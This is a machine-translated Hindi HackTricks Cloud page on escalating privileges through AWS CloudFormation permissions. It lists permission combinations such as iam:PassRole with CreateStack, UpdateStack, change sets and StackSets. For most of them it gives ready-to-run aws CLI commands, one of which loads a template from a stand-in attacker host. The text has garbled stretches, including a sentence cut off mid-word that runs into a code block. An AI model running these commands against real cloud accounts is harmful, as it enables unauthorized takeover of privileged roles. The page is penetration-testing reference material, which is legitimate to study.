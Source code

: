 # AWS - Cloudformation Privesc

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS & HackTricks swag प्राप्त करें**](https://peass.creator-spring.com)
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर **फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, HackTricks** और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके।

</details>

## cloudformation

Cloudformation के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

इन अनुमतियों के साथ एक हमलावर **विशेष भूमिका के तहत क्रियाएँ निष्पादित करने के लिए** अपनी सर्वर पर होस्ट किए गए एक कस्टम टेम्पलेट के साथ एक **CloudFormation स्टैक** बनाकर, उन्हें एक निर्दिष्ट भूमिका की अनुमतियों के तहत क्रियाएँ निष्पादित करने के लिए हमला कर सकता है:
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
निम्नलिखित पृष्ठ पर आपको एक **शोषण उदाहरण** मिलेगा जिसमें अतिरिक्त अनुमति **`cloudformation:DescribeStacks`** है:

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**संभावित प्रभाव:** निर्दिष्ट क्लाउडफॉर्मेशन सेवा भूमिका में उन्नति।

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

इस मामले में आप एक मौजूदा क्लाउडफॉर्मेशन स्टैक का दुरुपयोग कर सकते हैं ताकि आप इसे अपडेट कर सकें और पिछले स्थिति के रूप में वर्चस्व को उन्नत कर सकें:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
`cloudformation:SetStackPolicy` अनुमति का उपयोग करके आप **स्टैक पर `UpdateStack` अनुमति देने** और हमला कर सकते हैं।

**संभावित प्रभाव:** निर्दिष्ट क्लाउडफॉर्मेशन सेवा भूमिका को उच्चारित करना।

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

यदि आपके पास यह अनुमति है लेकिन **कोई `iam:PassRole` नहीं** है, तो आप फिर भी **उपयोग किए जाने वाले स्टैक्स को अपडेट** कर सकते हैं और **उनके साथ पहले से जुड़े IAM भूमिकाएँ दुरुपयोग कर सकते हैं**। उपयोग के लिए उदाहरण के लिए पिछले खंड की जांच करें (बस अपड
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
### उपयोग की जा सकती है `cloudformation:SetStackPolicy` अनुमति को स्टैक पर `ChangeSet` अनुमतियाँ देने के लिए और हमला करने के लिए।

**संभावित प्रभाव:** क्लाउडफॉर्मेशन सेवा भूमिकाओं के लिए उच्चतम अधिकार।

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

यह पिछले विधि की तरह है बिना **IAM भूमिकाओं** को पारित किए, इसलिए आप सिर्फ **पहले से संलग्न किए गए** को दुरुपयोग कर सकते हैं, पैरामीटर को संशोधित करें:
```
--change-set-type UPDATE
```
**संभावित प्रभाव:** क्लाउडफॉर्मेशन सेवा भूमिका में Privesc।

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

एक हमलावर इन अनुमतियों का दुरुपयोग कर सकता है ताकि StackSets बनाएं/अपडेट करें और विचारहीन cloudformation भूमिकाओं का दुरुपयोग करें।

**संभावित प्रभाव:** क्लाउडफॉर्मेशन सेवा भूमिकाओं में Privesc।

### `cloudformation:UpdateStackSet`

एक हमलावर इस अनुमति का दुरुपयोग कर सकता है बिना passRole अनुमति के StackSets को अपडेट करने के लिए और जुड़ी हुई cloudformation भूमिकाओं का दुरुपयोग करने के लिए।

**संभावित प्रभाव:** जुड़ी हुई cloudformation भूमिकाओं में Privesc।

## संदर्भ

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)
